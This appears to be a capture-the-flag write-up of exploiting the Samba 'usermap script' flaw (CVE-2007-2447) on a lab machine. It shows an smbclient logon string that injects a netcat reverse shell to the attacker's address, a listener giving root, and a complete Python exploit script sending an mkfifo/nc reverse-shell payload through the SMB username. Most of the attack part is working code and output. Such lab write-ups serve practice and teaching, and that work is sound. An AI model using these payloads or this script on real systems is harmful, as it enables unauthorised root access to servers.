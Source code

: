 
## Exploitation:

### 1. Samba Exploit
Exploing using smbclient.
```bash
#smbclient //10.10.10.3/tmp 
Enter WORKGROUP\niraz's password:  
Anonymous login successful 
Try "help" to get a list of possible commands. 
smb: \> logon "/=`nohup nc -nv 10.10.14.2 4444 -e /bin/sh`" 
Password:
```
and we get connection back to our machine.
```bash 
#nc -lvnp 4444 
listening on [any] 4444 ... 
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.3] 53095
whoami 
root
```
### 2. Exploiting samba using python script
After Googling it let me to this [GitHub](https://github.com/amriunix/CVE-2007-2447) with a Python POC for the exploit. we can get a shell easily, by following the “install” instructions and then running the script:

But writing my own script, so that i can have some practice in writing code.
```python
import sys 
from smb.SMBConnection import SMBConnection

def exploit(rhost,rport,lhost,lport): 
    payload = 'mkfifo /tmp/hago; nc ' + lhost + ' ' + lport + ' 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago' 
    username = "/=`nohup " + payload + "`" 
     
    smb_conn = SMBConnection(username, "", "", "") 
    try: 
        smb_conn.connect(rhost,rport) 
    except: 
        print("[+] Payload was sent but something went wrong - check netcat !")

def main(): 
    print("[*] CVE-2007-2447 - Samba usermap script") 
    if len(sys.argv) != 5: 
        print("(+)Usage: %s <rhost> <rport> <lhost> <lport> " % sys.argv[0]) 
    else: 
        print("[+] Connecting !") 
        rhost = sys.argv[1] 
        rport = sys.argv[2] 
        lhost = sys.argv[3] 
        lport = sys.argv[4] 
        exploit(rhost,rport,lhost,lport)

if __name__ == '__main__': 
    main()
```
running the above `python script` we get the root shell
```bash
#python3 lame-smb-exploit.py 10.10.10.3 139 10.10.14.2 4444 
[*] CVE-2007-2447 - Samba usermap script 
[+] Connecting !
```
